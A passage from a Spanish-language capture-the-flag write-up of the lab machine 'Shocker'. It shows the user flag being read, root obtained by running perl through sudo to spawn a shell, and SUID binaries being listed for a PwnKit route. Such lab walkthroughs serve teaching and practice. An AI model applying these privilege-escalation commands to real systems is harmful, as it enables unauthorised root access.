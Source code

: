 En este punto podemos leer la flag de usuario no privilegiado

```bash
shelly@Shocker:/usr/lib/cgi-bin$ find / -name user.txt 2>/dev/null
/home/shelly/user.txt
shelly@Shocker:/usr/lib/cgi-bin$ cat /home/shelly/user.txt
dbd5261da9d797839***************
shelly@Shocker:/usr/lib/cgi-bin$ 
```

### Escalada Privilegios (SUDO)

* * *

Comprobamos mediante el comando `sudo -l` que podemos ejecutar `/usr/bin/perl` como root

```bash
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
shelly@Shocker:/usr/lib/cgi-bin$ 
``` 

Tras consultar el recurso [GTFOBins](https://gtfobins.github.io/gtfobins/perl/) podemos escalar privilegios de la siguiente forma

```bash
shelly@Shocker:/usr/lib/cgi-bin$ sudo perl -e 'exec "/bin/sh";'
# whoami
root
```

### Escalada Privilegios (PWNKIT)

* * *

una forma alternativa de escalar privilegios es buscando archivos en la máquina con permisos SUID asignados

```bash
find / -perm -4000 2>/dev/null

/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/newgrp
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/newuidmap
/bin/ping6
/bin/su
/bin/fusermount
/bin/ntfs-3g
/bin/umount
/bin/ping
```